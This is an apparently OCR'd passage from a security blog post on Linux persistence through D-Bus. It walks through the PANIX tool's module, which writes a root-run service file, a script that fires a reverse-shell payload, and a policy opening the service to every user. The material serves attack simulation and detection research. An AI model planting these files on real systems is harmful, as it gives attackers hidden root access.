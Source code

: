 1. **Hijacking or Registering Malicious Services**:  
   * Attackers can replace or add `.service` files in e.g. `/usr/share/dbus-1/system-services/` to hijack legitimate communication or inject malicious code.  
2. **Creating or Exploiting Over-permissive Policies**:  
   * Weak policies (e.g., granting all users access to critical services) can allow attackers to invoke privileged methods.  
3. **Abusing Vulnerable Services**:  
   * If a D-Bus service improperly validates input, attackers may execute arbitrary code or perform unauthorized actions.

The examples above can be used for privilege escalation, defense evasion and persistence. Currently, there is no specific MITRE ATT&CK sub-technique for D-Bus. However, its abuse aligns closely with [T1543: Create or Modify System Process](https://attack.mitre.org/techniques/T1543/), as well as [T1574: Hijack Execution Flow](https://attack.mitre.org/techniques/T1574/) for cases where `.service` files are modified.

In the next section we will take a look at how an attacker can set up overly permissive D-Bus configurations that send out reverse connections with root permissions, while discussing approaches to detecting this behavior. 

# Persistence through T1543 - Create or Modify System Process: D-Bus

Now that we've learnt all about D-Bus setup, it’s time to take a look at how to simulate this in practice through the [setup_dbus.sh](https://github.com/Aegrah/PANIX/blob/7e27768807e12d11932e2fca5b6a4867308295dd/modules/setup_dbus.sh) PANIX module. PANIX starts off by creating a D-Bus service file at `/usr/share/dbus-1/system-services/org.panix.persistence.service` with the following contents:

```
cat <<'EOF' > "$service_file"
[D-BUS Service]
Name=org.panix.persistence
Exec=/usr/local/bin/dbus-panix.sh
User=root
EOF
```

This service file will listen on the `org.panix.persistence` interface, and execute the `/usr/local/bin/dbus-panix.sh` “service”. The `dbus-panix.sh` script simply invokes a reverse shell connection when called:

```
cat <<EOF > "$payload_script"
#!/bin/bash
# When D-Bus triggers this service, execute payload.
${payload}
EOF
```

To ensure any user is allowed to invoke the actions corresponding to the interface, PANIX sets up a `/etc/dbus-1/system.d/org.panix.persistence.conf` file with the following contents:

```
cat <<'EOF' > "$conf_file"
<!DOCTYPE busconfig PUBLIC "-//freedesktop//DTD D-Bus Bus Configuration 1.0//EN"
	"http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">
<busconfig>
	<!-- Allow any user to own, send to, and access the specified service -->
	<policy context="default">
		<allow own="org.panix.persistence"/>
		<allow send_destination="org.panix.persistence"/>
		<allow send_interface="org.panix.persistence"/>
	</policy>
</busconfig>
EOF
```
